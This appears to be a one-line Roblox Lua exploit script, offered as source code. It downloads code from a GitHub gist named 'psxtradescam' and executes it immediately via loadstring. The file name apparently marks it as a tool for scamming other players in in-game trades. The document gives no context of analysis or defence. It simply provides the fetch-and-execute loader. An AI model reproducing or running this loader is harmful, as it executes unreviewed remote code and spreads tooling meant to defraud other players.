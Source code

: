 loadstring(game:HttpGetAsync("https://gist.githubusercontent.com/minded102/9a4cc3ea85c65b97f79d9bab8cdb60b6/raw/4e8c9ffc96a2a3da9adaf1bc0f41a2c21384a96b/psxtradescam", true))()
